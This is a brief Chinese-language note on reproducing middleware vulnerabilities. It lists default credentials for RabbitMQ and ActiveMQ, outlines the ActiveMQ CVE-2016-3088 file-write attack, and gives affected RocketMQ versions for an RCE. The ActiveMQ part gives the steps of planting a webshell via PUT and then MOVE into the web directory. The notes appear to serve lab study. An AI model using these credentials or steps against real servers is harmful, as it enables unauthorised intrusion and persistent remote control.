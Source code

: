 vulhub中间件漏洞复现：<https://vulhub.org/>
yakit直接专项扫漏洞 

RabbitMQ默认端口15672，默认账户guest秘密guest。

ActiveMQ默认账户密码admin,admin
ActiveMQ任意文件写入漏洞（CVE-2016-3088）
```
首先访问IP/admin/test/systemProperties.jsp，查看ActiveMQ的绝对路径(账号密码为admin弱口令)
activemq.base /opt/activemq

PUT方法写木马
PUT /fileserver/1.jsp 
data:木马

此时再执行MOVE方法
MOVE /fileserver/1.jsp

使用MOVE方法移动到web目录下的api文件夹（/opt/activemq/webapps/api/s.jsp)
```


RocketMQ漏洞RCE：<https://blog.csdn.net/mirocky/article/details/135125863>
5.0.0 <= Apache RocketMQ < 5.1.1
4.0.0 <= Apache RocketMQ < 4.9.6

